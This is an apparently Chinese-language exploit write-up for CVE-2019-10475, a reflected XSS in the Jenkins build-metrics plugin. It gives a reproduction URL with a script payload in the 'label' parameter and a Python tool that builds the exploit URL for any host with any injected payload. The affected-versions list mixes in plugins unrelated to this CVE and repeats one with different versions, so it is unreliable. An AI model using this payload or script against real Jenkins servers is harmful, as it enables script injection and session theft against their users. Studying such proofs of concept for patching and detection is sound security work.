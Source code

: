 （CVE-2019-10475） 插件反射型xss
================================

一、漏洞简介
------------

二、漏洞影响
------------

360 FireLine插件， 最高包括1.7.2 Bitbucket OAuth插件， 最高包括0.9
Build-metrics插件 1.3及以下 部署WebLogic Plugin 最高至4.1
Dynatrace应用程序监视插件， 最高包括2.1.3 Dynatrace应用程序监视插件，
最高包括2.1.4 ElasticBox Jenkins Kubernetes CI / CD插件， 最高至1.3
包含1.1.4及以下版本的 全局Post Script插件 Libvirt Slaves插件，
最高包括1.8.5 截至 2.7.0的 Mattermost Notification插件 Sonar
Gerrit插件， 最高包括2.3 Zulip插件 （包括1.1.0及以下）

三、复现过程
------------

### 1、手工复现

该vulnearble插件位于[http://localhost:8080/plugin/build-metrics/，漏洞参数为label。](http://localhost:8080/plugin/build-metrics/，漏洞参数为label。)

    http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search

![](./.resource/(CVE-2019-10475)反射xss/media/rId26.png)

### 2、利用脚本

    #!/usr/bin/env python

    import sys
    import argparse

    VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


    def get_parser():
        parser = argparse.ArgumentParser(description='CVE-2019-10475')
        parser.add_argument('-p', '--port', help='port', default=80, type=int)
        parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
        parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
        return parser


    def main():
        parser = get_parser()
        args = vars(parser.parse_args())
        port = args['port']
        domain = args['domain']
        inject = args['inject']
        if port == 80:
            base_url = f'http://{domain}'
        elif port == 443:
            base_url = f'https://{domain}'
        else:
            base_url = f'http://{domain}:{port}'
        build_url = VULN_URL.format(base_url=base_url, inject=inject)
        print(build_url)
        return 0


    if __name__ == '__main__':
        sys.exit(main())
    Usage:

    $ python3 CVE-2019-10475.py --help
    usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

    CVE-2019-10475

    optional arguments:
      -h, --help            show this help message and exit
      -p PORT, --port PORT  port
      -d DOMAIN, --domain DOMAIN
                            domain
      -i INJECT, --inject INJECT
                            injec
